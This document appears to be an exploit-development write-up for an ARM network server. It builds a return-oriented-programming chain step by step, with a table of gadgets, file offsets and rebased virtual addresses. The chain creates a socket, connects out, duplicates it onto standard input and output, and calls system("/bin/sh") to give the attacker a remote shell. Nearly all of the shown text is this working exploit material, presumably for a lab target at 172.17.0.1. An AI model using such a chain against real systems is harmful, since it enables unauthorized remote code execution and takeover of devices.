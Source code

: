 | step | description | gadget | file offset | virtual address |
|------|-------------|--------|-------------|-----------------|
| `1` | set `r0` to `2` | `mov r0, #0 ; pop {r7, pc}`, `add r0, r0, #2 ; pop {r4, pc}`  | `0x0000eef0`, `0x000300f4`  | |
| `2` | set `r1` to `1` | `mov r1, #0 ; mov r0, r1 ; pop {r4, r5, r6, pc}`, `add r1, r1, #1 ; cmp r0, #0 ; bne #0x30578 ; pop {r4, pc}` | `0x0003a6d8`, `0x000305a8` | |
| `3` | set `r2` to `0` | `mov r2, #0 ; str r2, [r3] ; pop {r4, pc}` | `0x00030d30` | |
| `5` | save `r0` value somewhere | `pop {r4, pc}`, `str r0, [r4] ; pop {r4, pc}` | `0x0000bac4`, `0x0002ae30` | |
| `6` | set `r0` to `csock` | nothing to do | | | 
| `7` | set `r1` to `sin` | `pop {r1, r2, r3, pc}` | `0x000129e4` | |
| `8` | set `r2` to `16` | `pop {r1, r2, r3, pc}`, `add r2, r2, #1 ; str r2, [r0, #0x50] ; mov r0, r3 ; pop {r4, pc}` | `0x000129e4`, `0x00029110` | |
| `10` | set `r0` to `csock` |`pop {r4, pc}`, `ldr r0, [r4] ; pop {r4, r5, r6, pc}` | `0x0000bac4`, `0x0001b714` | |
| `11` | set `r1` to `0` | `mov r1, #0 ; mov r0, r1 ; pop {r4, r5, r6, pc}` | `0x0003a6d8` | |
| `10` | set `r0` to `csock` |`pop {r4, pc}`, `ldr r0, [r4] ; pop {r4, r5, r6, pc}` | `0x0000bac4`, `0x0001b714` | |
| `14` | set `r1` to `1` |`mov r1, #0 ; mov r0, r1 ; pop {r4, r5, r6, pc}` | `0x0003a6d8` | | 
| `10` | set `r0` to `csock` |`pop {r4, pc}`, `ldr r0, [r4] ; pop {r4, r5, r6, pc}` | `0x0000bac4`, `0x0001b714` | |
| `17` | set `r1` to `2` | `mov r1, #0 ; mov r0, r1 ; pop {r4, r5, r6, pc}` | `0x0003a6d8` | |
| `19` | set `r0` to `"/bin/sh"` | `pop {r4, pc}`, `mov r0, r4 ; pop {r4, pc}`  | `0x0000bac4`, `0x00015ed8`  | |

Additional gadgets:
- `0x00016298 : pop {r3, pc}`


We need:
- address of `"/bin/sh"` string => `0xff77d080`
- address of `system` function (or PLT trampoline) => `0x10ca8`
- address of a gadget allowing to set `r0` to `"/bin/sh"` string (typically one writing r0 with a value from stack)
    - `0x00015ed8 : mov r0, r4 ; pop {r4, pc}` => `0xff74ced8`
    - `0x0000bac4 : pop {r4, pc}` => `0xff742ac4`
- address of gadgets allowing to exec `dup2(csock, 0); dup2(csock, 1); dup2(csock, 2)`
    - `0x0000eef0 : mov r0, #0 ; pop {r7, pc}` => `0xff745ef0`
    - `0x000305a8 : add r1, r1, #1 ; cmp r0, #0 ; bne #0x30578 ; pop {r4, pc}` => `0xff7675a8`
        - usefull to increment r1 to reach `csock`
    - `0x0001f500 : mov r0, #1 ; pop {r4, pc}` => `0xff756500`
    - `0x00030b48 : add r1, r1, #1 ; bne #0x30b08 ; pop {r4, r5, pc}` => `0xff767b48`
        - usefull to increment r1 to reach `csock` (when `r0=1`)
    - `0x000129e4 : pop {r1, r2, r3, pc}` => `0xff7499e4`
    - `0x000300f4 : add r0, r0, #2 ; pop {r4, pc}` => `0xff7670f4`
    - `0x00030d30 : mov r2, #0 ; str r2, [r3] ; pop {r4, pc}` => `0xff767d30`






Our payload is prepended by `"Connection from %s, request = \"GET `, where the string format `%s` is replaced with the remote IP (`172.17.0.1`), and with a timestamp if we have to use the upper stack buffer for overflowing the stack (in case we send too much bytes).
